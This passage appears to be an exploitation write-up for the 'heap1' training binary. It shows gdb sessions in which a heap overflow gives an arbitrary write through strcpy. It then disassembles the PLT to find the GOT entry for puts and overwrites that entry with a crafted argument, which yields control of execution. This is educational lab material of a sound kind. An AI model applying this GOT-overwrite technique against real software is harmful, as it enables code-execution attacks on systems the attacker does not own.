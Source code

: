 Running the program with two 4 byte inputs, runs as expected:

    # ./heap1 AAAA BBBB
    and that's a wrap folks!

However with inputs that exceed the 8 byte allocated heap chunks:

    gdb-peda$ r AAAABBBBCCCCDDDDEEEEFFFFGGGG 000011112222333344445555
    Stopped reason: SIGSEGV
    *__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, \
        src=0xbffffe66 "000011112222333344445555") at strcpy.c:40

Segfaults. Noting the dest of the `strcpy` now has an address of `0x46464646` (or the FFFF characters from the first input argument). Given that we can control the destination address (offset of the FFFF characters), and source data by overflowing enough of the heap segment, have an _arbitary write to anywhere_ vulnerability.

A real world attack could involve mutating one of the GOT (global offset table) address for a function call to a dynamically linked piece of functionality tied in the linker (`ld.so`).

    gdb-peda$ backtrace
    #0  *__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, \
        src=0xbffffe66 "000011112222333344445555") at strcpy.c:40
    #1  0x080485ad in main (argc=0x3, argv=0xbffffd14) at main.c:30
    #2  0xb7e8de46 in __libc_start_main (main=0x8048510 <main>, argc=0x3)
    #3  0x08048421 in _start ()

Disassembling the instruction responsible for calling `strcpy`:

    gdb-peda$ disass 0x080485ad
    Dump of assembler code for function main:
    ...
    0x080485a8 <+152>:   call   0x80483b0 <strcpy@plt>
       0x080485ad <+157>:   mov    DWORD PTR [esp],0x804866b
       0x080485b4 <+164>:   call   0x80483d0 <puts@plt>
       0x080485b9 <+169>:   leave
       0x080485ba <+170>:   ret
    End of assembler dump.

Reveals `puts@plt` is invoked after the dangerous `strcpy` call. To get to the GOT table, must first disassembly the PLT (procedure linkage table) trampoline to the GOT.

    gdb-peda$ disassemble 0x80483d0
    Dump of assembler code for function puts@plt:
       0x080483d0 <+0>:     jmp    DWORD PTR ds:0x8049844
       0x080483d6 <+6>:     push   0x20
       0x080483db <+11>:    jmp    0x8048380
    End of assembler dump.

Bingo `DWORD PTR ds:0x8049844`, is the address of the `puts` GOT table entry. Replacing the 'FFFF' characters with the `puts` GOT table address `0x8049844`:

    gdb-peda$ r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x44\x98\x04\x08"`" 000011112222333344445555
    Stopped reason: SIGSEGV
    0x30303030 in ?? ()
